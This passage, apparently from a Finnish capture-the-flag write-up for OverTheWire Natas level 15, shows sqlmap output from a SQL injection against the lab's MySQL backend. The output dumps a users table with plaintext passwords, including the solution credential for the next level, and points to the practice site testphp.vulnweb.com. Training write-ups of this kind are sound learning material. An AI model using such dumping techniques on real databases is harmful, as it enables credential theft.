 ```
---
[13:00:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[13:00:10] [INFO] fetching entries of column(s) 'password,username' for table 'users' in database 'natas15'
[13:00:10] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'natas15'
[13:00:10] [INFO] resumed: 4
[13:00:10] [INFO] resumed: 6P151OntQe
[13:00:10] [INFO] resumed: bob
[13:00:10] [INFO] resumed: HLwuGKts2w
[13:00:10] [INFO] resumed: charlie
[13:00:10] [INFO] resumed: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
[13:00:10] [INFO] resumed: natas16
[13:00:10] [INFO] resumed: hROtsfM734
[13:00:10] [INFO] resumed: alice
Database: natas15
Table: users
[4 entries]
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| bob      | 6P151OntQe                       |
| charlie  | HLwuGKts2w                       |
| natas16  | hPkjKYviLQctEW33QmuXL6eDVfMW4sGo |
| alice    | hROtsfM734                       |
+----------+----------------------------------+

[13:00:10] [INFO] table 'natas15.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org/dump/natas15/users.csv'                                                                                                  
[13:00:10] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'                                                                                                                          
[13:00:10] [WARNING] your sqlmap version is outdated

[*] ending @ 13:00:10 /2025-05-18/
```

# Natas 15 - miten oltais virallisesti menty? - 2
## TOINEN VAIHTOEHTO - TOINEN TAPA

Tämäkin oltaisi voitu mennä toisella tavalla, mutta ideana on sama kuin ykkönen (aikaisempi kappele), ja tätä sqlmap komentoa on menty toisessa harjoituksessa, mutta tämä *natas* harjoitusmoduuli on vähä vaikeampi. Toinen harjoitus sivusto, mutta ikään toisenlainen tapa `http://testphp.vulnweb.com/artists.php` <br><br>
